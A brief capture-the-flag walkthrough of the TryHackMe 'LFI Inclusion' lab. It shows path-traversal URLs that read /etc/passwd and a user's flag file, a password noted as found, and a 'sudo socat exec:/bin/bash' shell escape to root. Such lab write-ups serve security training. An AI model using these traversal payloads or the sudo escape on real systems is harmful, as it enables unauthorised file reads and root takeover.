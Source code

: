 ### LFI Inclusion TryHackMe

## Nmap scans

`Open ports:
22                                                                                                                                                                 
80			## LFI attack
`

## Information collection
http://machineip/article?name=../../../../../../../../../../etc/passwd

We see a user named falconfeast. And we also have his password: 

___falconfeast: rootpassword___


##User Flag and Getting a shell
Now we can get the user flag using LFI like this:
http://machineip/article?name=../../../../../../../../../../home/falconfeast/user.txt

OR 

We can login to the machine which we will have to do it anyway.

## Priv-esc

We get the first flag from this.

now running `sudo -l` --> we see we can run /usr/bin/socat as root

So we go to gtfobins for sudo command to directly get root access.

sudo /usr/bin/socat stdin exec:/bin/bash

Now we can get the root flag.
